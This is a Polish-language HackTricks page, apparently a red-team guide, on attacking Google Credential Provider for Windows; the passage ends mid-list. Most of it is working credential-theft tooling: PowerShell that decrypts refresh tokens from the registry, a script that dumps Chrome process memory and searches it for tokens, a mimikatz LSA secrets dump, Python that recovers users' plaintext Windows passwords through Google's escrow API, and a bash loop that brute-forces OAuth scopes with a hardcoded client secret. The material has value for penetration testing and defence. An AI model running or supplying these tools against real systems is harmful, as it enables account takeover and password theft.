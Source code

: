# GWS - Ataki synchronizacji Workspace (GCPW, GCDS, Synchronizacja katalogów z AD i EntraID)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## GCPW - Google Credential Provider dla Windows

To jest jednolity system logowania, który zapewnia Google Workspace, aby użytkownicy mogli logować się na swoich komputerach z systemem Windows, używając **swoich danych logowania do Workspace**. Ponadto, będzie to przechowywać tokeny do uzyskania dostępu do Google Workspace w niektórych miejscach na komputerze.

{% hint style="success" %}
Zauważ, że [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) jest w stanie wykryć **GCPW**, uzyskać informacje o konfiguracji i **nawet tokeny**.
{% endhint %}

### GCPW - MitM

Gdy użytkownik uzyskuje dostęp do komputera z systemem Windows zsynchronizowanego z Google Workspace za pośrednictwem GCPW, będzie musiał wypełnić standardowy formularz logowania. Ten formularz logowania zwróci kod OAuth, który komputer wymieni na token odświeżania w żądaniu takim jak:

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

Nowe linie zostały dodane, aby poprawić czytelność.

{% hint style="info" %}
Możliwe było przeprowadzenie ataku MitM, instalując `Proxifier` na komputerze, nadpisując binarny plik `utilman.exe` plikiem `cmd.exe` i uruchamiając **funkcje ułatwień dostępu** na stronie logowania Windows, co uruchomi **CMD**, z którego można **uruchomić i skonfigurować Proxifier**.\
Nie zapomnij **zablokować ruchu QUICK UDP** w `Proxifier`, aby zredukować go do komunikacji TCP, dzięki czemu będziesz mógł go zobaczyć.

Skonfiguruj również w "Usługi i inni użytkownicy" obie opcje i zainstaluj certyfikat Burp CA w systemie Windows.
{% endhint %}

Dodatkowo, dodając klucze `enable_verbose_logging = 1` i `log_file_path = C:\Public\gcpw.log` w **`HKLM:\SOFTWARE\Google\GCPW`**, można sprawić, aby przechowywał pewne logi.

### GCPW - Odcisk palca

Możliwe jest sprawdzenie, czy GCPW jest zainstalowane na urządzeniu, sprawdzając, czy istnieje następujący proces lub czy istnieją następujące klucze rejestru:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
W **`HKCU:\SOFTWARE\Google\Accounts`** można uzyskać dostęp do adresu e-mail użytkownika oraz zaszyfrowanego **refresh token**, jeśli użytkownik niedawno się zalogował.

W **`HKLM:\SOFTWARE\Google\GCPW\Users`** można znaleźć **domeny**, które mają prawo do logowania w kluczu `domains_allowed`, a w podkluczach można znaleźć informacje o użytkowniku, takie jak e-mail, zdjęcie, nazwa użytkownika, czasy życia tokenów, uchwyt tokena...

{% hint style="info" %}
Uchwyt tokena to token, który zaczyna się od `eth.` i z którego można wyodrębnić pewne informacje za pomocą zapytania, takiego jak:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Możliwe jest również znalezienie uchwytu tokena dostępu za pomocą żądania takiego jak:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Afaik nie jest możliwe uzyskanie tokenu odświeżania lub tokenu dostępu z uchwytu tokenu.
{% endhint %}

Ponadto plik **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** jest plikiem json zawierającym informacje o różnych **ustawieniach** takich jak `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (czy kilku użytkowników z Workspace może zalogować się na komputerze) oraz `validityPeriodDays` (liczba dni, przez które użytkownik nie musi ponownie uwierzytelnić się bezpośrednio w Google).

### GCPW - Tokeny odświeżania rejestru

W rejestrze **`HKCU:\SOFTWARE\Google\Accounts`** może być możliwe znalezienie niektórych kont z **`refresh_token`** zaszyfrowanym wewnątrz. Metoda **`ProtectedData.Unprotect`** może łatwo to odszyfrować.

<details>

<summary>Uzyskaj <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> dane i odszyfruj refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Przykład wyjścia:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Jak wyjaśniono w [**tym filmie**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), jeśli nie znajdziesz tokena w rejestrze, możliwe jest zmodyfikowanie wartości (lub usunięcie) z **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** i następnym razem, gdy użytkownik uzyska dostęp do komputera, będzie musiał się ponownie zalogować, a **token zostanie zapisany w poprzednim rejestrze**.

### GCPW - Tokeny odświeżania dysku

Plik **`%LocalAppData%\Google\Chrome\User Data\Local State`** przechowuje klucz do odszyfrowania **`refresh_tokens`** znajdujących się w **profilach Google Chrome** użytkownika, takich jak:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Możliwe jest znalezienie pewnego **kodu C#** uzyskującego dostęp do tych tokenów w ich odszyfrowanej formie w [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Ponadto, szyfrowanie można znaleźć w tym kodzie: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Można zaobserwować, że używany jest AESGCM, zaszyfrowany token zaczyna się od **wersji** (**`v10`** w tym czasie), następnie [**ma 12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), a następnie ma **tekst szyfrowany** z końcowym **mac o długości 16B**.

### GCPW - Zrzucanie tokenów z pamięci procesów

Poniższy skrypt można użyć do **zrzucenia** każdego procesu **Chrome** za pomocą `procdump`, wyodrębnić **ciągi** i następnie **wyszukać** ciągi związane z **tokenami dostępu i odświeżania**. Jeśli Chrome jest połączony z jakąś stroną Google, jakiś **proces będzie przechowywał tokeny odświeżania i/lub dostępu w pamięci!**

<details>

<summary>Zrzut procesów Chrome i wyszukiwanie tokenów</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

Próbowałem tego samego z `gcpw_extension.exe`, ale nie znalazł żadnego tokena.

Z jakiegoś powodu, **niektóre wyodrębnione tokeny dostępu nie będą ważne (chociaż niektóre będą)**. Próbowałem następującego skryptu, aby usunąć znaki jeden po drugim, aby spróbować uzyskać ważny token z zrzutu. Nigdy nie pomogło mi to znaleźć ważnego, ale może się przyda:

<details>

<summary>Sprawdź token dostępu, usuwając znaki jeden po drugim</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Odzyskiwanie hasła w postaci czystego tekstu

Aby wykorzystać GCPW do odzyskania hasła w postaci czystego tekstu, można zrzucić zaszyfrowane hasło z **LSASS** za pomocą **mimikatz**:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Następnie wyszukaj sekret, taki jak `Chrome-GCPW-<sid>`, jak na obrazku:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Następnie, z **tokenem dostępu** o zakresie `https://www.google.com/accounts/OAuthLogin`, możliwe jest zażądanie klucza prywatnego do odszyfrowania hasła:

<details>

<summary>Skrypt do uzyskania hasła w postaci czystego tekstu, biorąc pod uwagę token dostępu, zaszyfrowane hasło i identyfikator zasobu</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Możliwe jest znalezienie kluczowych komponentów tego w kodzie źródłowym Chromium:

* Domeny API: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* Punkt końcowy API: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Generowanie tokenów dostępu z tokenów odświeżających

Używając tokena odświeżającego, możliwe jest generowanie tokenów dostępu przy użyciu go oraz identyfikatora klienta i tajnego klucza klienta określonych w następującym poleceniu:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Zakresy

{% hint style="info" %}
Zauważ, że nawet posiadając token odświeżający, nie można żądać żadnego zakresu dla tokena dostępu, ponieważ można żądać tylko **zakresów obsługiwanych przez aplikację, w której generujesz token dostępu**.

Ponadto, token odświeżający nie jest ważny w każdej aplikacji.
{% endhint %}

Domyślnie GCPW nie będzie miał dostępu jako użytkownik do każdego możliwego zakresu OAuth, więc używając poniższego skryptu możemy znaleźć zakresy, które można wykorzystać z `refresh_token`, aby wygenerować `access_token`:

<details>

<summary>Skrypt Bash do brutalnego wymuszania zakresów</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

A oto wynik, który otrzymałem w momencie pisania:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
Ponadto, sprawdzając kod źródłowy Chromium, można [**znaleźć ten plik**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), który zawiera **inne zakresy**, które można założyć, że **nie pojawiają się w wcześniej brutalnie wymuszonym wykazie**. Dlatego te dodatkowe zakresy można założyć:

<details>

<summary>Extra scopes</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Zauważ, że najciekawszym z nich jest prawdopodobnie:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Jednak próbowałem użyć tego zakresu, aby uzyskać dostęp do gmail lub wylistować grupy i to nie zadziałało, więc nie wiem, jak przydatny jest on nadal.

**Uzyskaj token dostępu ze wszystkimi tymi zakresami**:

<details>

<summary>Skrypt Bash do generowania tokena dostępu z refresh_token z wszystkimi zakresami</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
